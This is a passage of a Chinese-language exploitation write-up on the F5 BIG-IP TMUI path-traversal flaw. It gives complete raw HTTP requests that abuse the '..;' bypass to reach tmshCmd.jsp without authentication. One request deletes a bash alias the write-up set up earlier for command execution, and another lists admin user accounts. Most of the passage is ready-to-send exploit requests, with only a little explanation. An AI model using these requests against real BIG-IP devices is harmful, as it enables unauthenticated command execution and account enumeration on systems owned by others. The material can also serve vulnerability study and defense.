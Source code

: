   
用完之后记得解除：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHx3TB4A9qg4CITiaTUYqPCVQbCQNibmzsKvMc7PqluCEgOl8OekW7q37A/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=delete+cli+alias+private+list HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F

```  
  
  
方式二：tmsh命令语法  
  
除了使用上面这种通过alias将bash设置别名来实现命令执行的效果外，我们还可以使用BIG-IP的一些内置的命令，例如：  
- list auth user——查看所有用户  
  
- list auth user admin ——仅仅查看admin用户  
  
有人可能会好奇，为什么方式一中要将bash的别名设置为list，而这里也是tmsh内置的list指令呢？这是因为在WorkspaceUtils.java文件中对operation操作类型有检测，只允许create\delete\list\modify四种类型，这在漏洞分析部分有详细描述~  
  
关于通过tmsh的list命令查看用户信息的描述可参考：https://devcentral.f5.com/s/question/0D51T00006i7hq9/tmsh-command-to-list-all-users-in-all-partitions  
```
tmshCmd.jsp?command=list+auth+user                      #使用list直接执行命令查看所有用户
tmshCmd.jsp?command=list+auth+user+admin               #使用list直接执行命令查看admin用户
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHib93ojUxHkCXYjBiaa2TQGmia6ibq8ayicR3LKzd9eIFibNaKYESr6UIT7Xw/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```  
  